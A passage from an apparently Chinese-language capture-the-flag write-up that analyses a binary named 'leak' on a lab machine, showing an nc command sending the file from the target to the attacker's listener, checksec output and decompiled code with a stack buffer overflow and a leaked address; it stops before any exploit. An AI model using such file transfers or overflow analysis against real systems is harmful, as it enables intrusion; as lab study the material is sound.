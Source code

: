 ## Overflown

涉及到`Pwn`的知识我也不是很懂，就从我的角度进行分析。

在`/home`目录下发现一个二进制文件`leak`

![](./images/image-124.png)

使用nc将文件传出来看看

```
www-data@jet:/home$ nc 10.10.16.2 6666 < leak

[root@kali] /home/kali  
❯ nc -lvnp 6666 > leak 
```

`checksec`查看一下结构

```
[root@kali] /home/kali/Desktop  
❯ checksec leak        
[*] '/home/kali/Desktop/leak'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

查看`IDA`的伪代码，并没有看到其他的一些明显的`system`函数，应该是要自己写入

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [rsp+0h] [rbp-40h] BYREF

  _init();
  printf("Oops, I'm leaking! %p\n", s);
  puts(aPwnMe);
  printf("> ");
  fgets(s, 512, stdin);
  return 0;
}
```
